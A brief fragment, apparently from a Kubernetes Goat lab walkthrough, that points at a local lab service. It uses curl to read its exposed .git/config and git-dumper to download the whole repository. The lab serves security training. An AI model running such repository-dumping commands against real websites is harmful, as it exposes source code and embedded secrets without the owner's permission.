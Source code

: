 http://192.168.1.50:1230/

curl localhost:1230/.git/config
git-dumper http://192.168.1.50:1230/.git k8s-goat
